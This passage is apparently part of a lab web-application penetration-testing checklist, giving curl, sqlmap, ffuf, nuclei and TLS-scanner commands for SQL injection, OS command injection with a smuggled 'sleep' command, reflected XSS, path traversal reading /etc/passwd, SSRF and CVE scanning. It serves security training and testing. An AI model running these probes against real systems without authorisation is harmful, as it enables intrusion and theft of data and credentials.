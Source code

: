 5) Injection: SQLi (example against DVWA or similar lab)
```
# Quick tamper test via curl (reflected errors or 500)
curl -ks "$TARGET/vulnerabilities/sqli/?id=1'&Submit=Submit" -H "Cookie: $COOKIE" | head

# Automated exploitation (lab only)
sqlmap -u "$TARGET/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="$COOKIE" --batch --dbs
```

6) Injection: OS command
```
# Time-based test (lab endpoint with param 'ip')
time curl -ks "$TARGET/vulnerabilities/exec/?ip=127.0.0.1; sleep 5&submit=Submit" -H "Cookie: $COOKIE"
```

7) XSS (reflected)
```
# Simple reflected XSS probe
curl -ks "$TARGET/search?q=%3Cscript%3Ealert(1)%3C%2Fscript%3E" -H "Cookie: $COOKIE"

# With common payload list
ffuf -u "$TARGET/search?q=FUZZ" -w /usr/share/seclists/Fuzzing/XSS/XSS-BruteLogic.txt -fs 0 -H "Cookie: $COOKIE"
```

8) CSRF indicators
```
# Inspect for anti-CSRF token presence and stability
curl -ks $TARGET/profile -H "Cookie: $COOKIE" | grep -i -E 'csrf|token|nonce'
```

9) Path traversal / LFI (lab only)
```
# Unix passwd file probe
curl -ks "$TARGET/download?file=../../../../etc/passwd" -H "Cookie: $COOKIE"

# Encoded variant
curl -ks "$TARGET/download?file=..%2F..%2F..%2F..%2Fetc%2Fpasswd" -H "Cookie: $COOKIE"
```

10) SSRF (lab only; use a request catcher like webhook.site)
```
export BIN_URL=https://webhook.site/your-unique-url
curl -ks "$TARGET/fetch?url=$BIN_URL" -H "Cookie: $COOKIE"
```

11) TLS and cryptography hygiene (if HTTPS)
```
# Quick TLS scan (choose one)
testssl.sh --fast https://127.0.0.1:8443
sslyze --regular 127.0.0.1:8443
```

12) Components and CVEs (fingerprint then template-scan; lab only)
```
nuclei -u $TARGET -tags cves -severity critical,high -rl 5
```
